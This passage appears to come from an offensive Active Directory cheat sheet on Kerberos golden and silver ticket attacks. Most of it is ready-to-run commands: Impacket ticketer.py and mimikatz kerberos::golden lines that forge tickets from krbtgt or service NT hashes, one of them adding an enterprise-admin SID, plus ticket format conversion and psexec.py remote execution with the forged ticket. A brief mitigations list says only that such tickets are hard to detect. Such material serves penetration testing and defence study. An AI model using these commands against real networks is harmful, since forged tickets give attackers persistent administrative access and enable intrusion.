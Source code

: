 #### Using a ticket on Linux

```powershell
# Convert the ticket kirbi to ccache with kekeo
misc::convert ccache ticket.kirbi

# Alternatively you can use ticketer from Impacket
./ticketer.py -nthash a577fcf16cfef780a2ceb343ec39a0d9 -domain-sid S-1-5-21-2972629792-1506071460-1188933728 -domain amity.local mbrody-da

ticketer.py -nthash HASHKRBTGT -domain-sid SID_DOMAIN_A -domain DEV Administrator -extra-sid SID_DOMAIN_B_ENTERPRISE_519
./ticketer.py -nthash e65b41757ea496c2c60e82c05ba8b373 -domain-sid S-1-5-21-354401377-2576014548-1758765946 -domain DEV Administrator -extra-sid S-1-5-21-2992845451-2057077057-2526624608-519

export KRB5CCNAME=/home/user/ticket.ccache
cat $KRB5CCNAME

# NOTE: You may need to comment the proxy_dns setting in the proxychains configuration file
./psexec.py -k -no-pass -dc-ip 192.168.1.1 AD/administrator@192.168.1.100 
```

If you need to swap ticket between Windows and Linux, you need to convert them with `ticket_converter` or `kekeo`.

```powershell
root@kali:ticket_converter$ python ticket_converter.py velociraptor.ccache velociraptor.kirbi
Converting ccache => kirbi
root@kali:ticket_converter$ python ticket_converter.py velociraptor.kirbi velociraptor.ccache
Converting kirbi => ccache
```


Mitigations:
* Hard to detect because they are legit TGT tickets
* Mimikatz generate a golden ticket with a life-span of 10 years

### Pass-the-Ticket Silver Tickets

Forging a TGS require machine account password (key) or NTLM hash of the service account.

```powershell
# Create a ticket for the service
mimikatz $ kerberos::golden /user:USERNAME /domain:DOMAIN.FQDN /sid:DOMAIN-SID /target:TARGET-HOST.DOMAIN.FQDN /rc4:TARGET-MACHINE-NT-HASH /service:SERVICE

# Examples
mimikatz $ /kerberos::golden /domain:adsec.local /user:ANY /sid:S-1-5-21-1423455951-1752654185-1824483205 /rc4:ceaxxxxxxxxxxxxxxxxxxxxxxxxxxxxx /target:DESKTOP-01.adsec.local /service:cifs /ptt
mimikatz $ kerberos::golden /domain:jurassic.park /sid:S-1-5-21-1339291983-1349129144-367733775 /rc4:b18b4b218eccad1c223306ea1916885f /user:stegosaurus /service:cifs /target:labwws02.jurassic.park

# Then use the same steps as a Golden ticket
mimikatz $ misc::convert ccache ticket.kirbi

root@kali:/tmp$ export KRB5CCNAME=/home/user/ticket.ccache
root@kali:/tmp$ ./psexec.py -k -no-pass -dc-ip 192.168.1.1 AD/administrator@192.168.1.100 
```
